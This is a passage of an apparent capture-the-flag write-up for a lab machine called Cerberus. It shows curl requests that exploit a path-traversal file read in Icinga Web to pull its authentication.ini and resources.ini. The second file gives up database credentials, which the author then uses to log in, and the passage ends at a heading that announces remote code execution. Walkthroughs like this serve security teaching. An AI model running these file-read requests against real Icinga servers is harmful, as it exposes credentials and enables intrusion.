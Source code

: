 What was interesting is that, this is a Windows machine but it seems a Linux container is hosting it. Next, we can note that `172.16.22.1` is hosting the DC from the hosts file we read. Next, we can attempt to read some configuration files for this Icinga instance for the authentication or anything at all. The Icinga documentation reveals that there is some stored `/etc/icingaweb2/authentication.ini`.

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini
[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

So there's a backend `db` for this website, and based on the documentation, it's likely a MySQL or PostgreSQL database.

{% embed url="https://icinga.com/docs/icinga-web/latest/doc/04-Resources/" %}

Checking the `resources.ini` file reveals some credentials.

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0
```

With these credentials, we can login to the Icinga Web instance!

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Icinga as Matthew --> RCE
